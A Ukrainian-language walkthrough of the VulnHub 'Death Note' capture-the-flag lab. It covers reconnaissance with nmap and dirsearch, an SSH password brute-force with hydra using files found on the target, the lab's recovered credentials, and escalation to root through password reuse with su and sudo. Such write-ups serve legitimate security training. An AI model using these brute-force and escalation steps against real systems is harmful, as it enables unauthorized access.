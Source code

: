 # Death Note

### https://www.vulnhub.com/entry/deathnote-1,739/

### 1. Перша команда яку ми використовуємо —  

```bash
   sudo netdiscover -r 10.0.2.0/24
````

```bash
   nmap -Pn -V 10.0.2.X
````

* Параметр `-Pn` вимикає пінг — подібно `nmap` не перевіряє чи жива ціль за допомогою ping або SYN-сканування. Це корисно, коли хост фільтрує або блокує ping-запити.
* Параметр `-V` — виводиться більш "підсилена" інформація під час сканування.
* Бачимо два відкритих порти: **22** та **80**.
* Робити брутфорс на ssh (22) не має сенсу, до поки ми не маємо а ні **логіну**, а ні **паролю**.
* В браузері відкриваємо 10.0.2.Х з метою розуміння, який саме сервіс працює на **80** порті.
* Як результат маємо помилку, але маємо і підказку у вигляді доменного імені **deathnote.vuln**:
![alt text](image.png)
* Робимо висновок, що нам потрібно зарезолвити це доменне ім'я, а це можно зробити за допомогою локального файла **hosts**, яким можна скористатись, як локальною альтернативою DNS.


### 2. Для пошуку **hosts** застосовуємо команду:

   ```bash
   whereis hosts
   ```

   *  `whereis` — команда, яка шукає файли, пов'язані з певним словом.

### 3. Далі заходимо у текстовий редактор nano з правами адміністратора (root)

   ```bash
   sudo nano /etc/hosts
   ```

   * Вводимо IP:

     ```
     10.0.2.X deathnote.vuln
     ```

---
![alt text](image-1.png)


### 4. Перехід на веб-сторінку

* У HTML-коді знаходимо посилання на директорію, де була зберігається картинки, в назві яких міститься "kira".
![alt text](image-2.png)

* Заходимо за цією адресою, бачимо багато файлів, і два з них у форматі `.txt` з іменами **notes** та **user**.

---

### 5. Для сканування директорій використовуємо

```bash
dirsearch -u http://deathnote.vuln/
```
* або користуємось аналогами (**dirb** (присутня в Калі по замовчанню) або **gobuster**)

> Для використання її потрібно попередньо встановити командою:

```bash
sudo apt install dirsearch
```

* Параметр `-u` — вказує URL сайту, на якому потрібно провести brute-force директорій та файлів.

---

#### Ця команда вивела нам файли, серед них ми знайшли

```
/robots.txt  
/wordpress/wp-login.php
```

* Заходимо на сторінку з `/robots.txt`, нас зустрічає текст, який каже, що нам потрібно зайти на `/important.jpg`.
![alt text](image-3.png)
* Але не знайшовши там нічого, використовуємо команду:

```bash
curl http://deathnote.vuln/important.jpg
```
![alt text](image-4.png)


* Це команда — інструмент для роботи з HTTP(S)-запитами, дозволяє завантажити вміст за вказаним URL.
* Отримуємо відповідь, у якій згадуються `user.txt` — може бути ідентифікатор,
  а також `notes.txt` — може бути список паролів. Шлях до каталогу, де знаходяться ці файли ми встановили, коли знайшли "kira".jpg за допомогою інспектора в браузері.
* Як результат переходимо за шляхом та маємо наступне:
![alt text](image-5.png)

* зберігаємо собі **notes.txt** та **user.txt**.

### 6. Скористаємось інструментом дл брут-форсу логінів і паролів `hydra`

```

hydra -L user.txt -P notes.txt 10.0.2.6 ssh

```

- Параметр `-L` — вказує файл із логінами.
- Параметр `-P` — вказує файл із паролями.

(У цьому випадку, при використанні інструменту `medusa` — більш швидкісного, виявилася проблема спочатку із считанням файлів, потім із підбором значень)

* Як результат, маємо логін та пароль для ssh з'єднання:
![alt text](image-6.png)

#### Заходимо через ssh порт з отриманими логіном і паролем (l:death4me)
```bash
ssh l@10.0.2.X
```

#### Після логінування через ssh в домашньому каталозі cеред файлів знаходимо `user.txt`, 
![alt text](image-7.png)

#### Переглядаємо його та бачимо текст, написаний мовою `brainfuck`.
* Перекодовуємо його за допомогою `dcode.fr`.
#### *i think u got the shell , but you wont be able to kill me -kira*


#### 7. Шукаємо по всієї файловій системі файли та директорії, які мають в назві "kira":


![alt text](image-8.png)

#### Переміщуємось по директоріях командами:
```
cd ..
cd kira
cd /opt
cd kira-case

```

та переглядаємо файл:
```

case-file.txt

```

#### В цьому файлі нам кажуть, що у директорії `fake-notebook-rule` щось є.

- При перегляді файлу `case.wav` бачимо інструкційний код, перекодовуємо його у текст — отримуємо:

```

password: kiraisevil

```
![alt text](image-9.png)

### 8. Переходимо на юзера kira командою:

```

su kira

```
> Ця команда використовується для зміни користувача в поточній сесії.


та вводимо свіжо отриманий пароль.

### 9. Спробуємо використати той самий пароль для отримання суперкористувача:

```

sudo -i

```

*Успішний вхід!*

- Змінюємо директорію:

```

cd /root

```

та переглядаємо файли:

```

ls

```

#### Знаходимо файл `root.txt` та виводимо.

![alt text](image-10.png)

---


